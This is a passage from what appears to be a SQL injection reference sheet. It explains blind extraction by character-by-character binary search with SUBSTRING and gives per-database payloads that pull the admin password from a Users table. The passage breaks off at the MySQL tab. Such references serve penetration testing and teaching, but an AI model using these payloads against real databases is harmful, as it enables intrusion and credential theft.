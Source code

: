 This can help you to retrieve data from the database by just brute forcing it.
Which sounds reeeally slow but you can make it fast by going character by character and doing binary search.
You can do it with `SUBSTRING` function, to exctract a certain character and then compare it with `>` (or `<`) and `=` to a specific char.
Take in mind this function starts counting in `1`:

| Database type | Query |
| --- | --- |
| Oracle | <code>SUBSTR('foobar', <smart-variable variable="char-index" default-value="4"></smart-variable>, 1)</code> |
| Microsoft | <code>SUBSTRING('foobar', <smart-variable variable="char-index" default-value="4"></smart-variable>, 1)</code> |
| PostgreSQL | <code>SUBSTRING('foobar', <smart-variable variable="char-index" default-value="4"></smart-variable>, 1)</code> |
| MySQL | <code>SUBSTRING('foobar', <smart-variable variable="char-index" default-value="4"></smart-variable>, 1)</code> |

The injection would look somewhat similar to the following:

<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>

```sql
AND SUBSTR(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 'm'
AND SUBSTR(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 't'
AND SUBSTR(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) = 's'
```

</template>
<template v-slot:microsoft>

```sql
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 'm'
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 't'
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) = 's'
```

</template>
<template v-slot:pgsql>

```sql
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 'm'
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) > 't'
AND SUBSTRING(({{ injected-query SELECT Password FROM Users WHERE Username = 'admin' }}), {{ char-index 1 }}, 1) = 's'
```

</template>
<template v-slot:mysql>
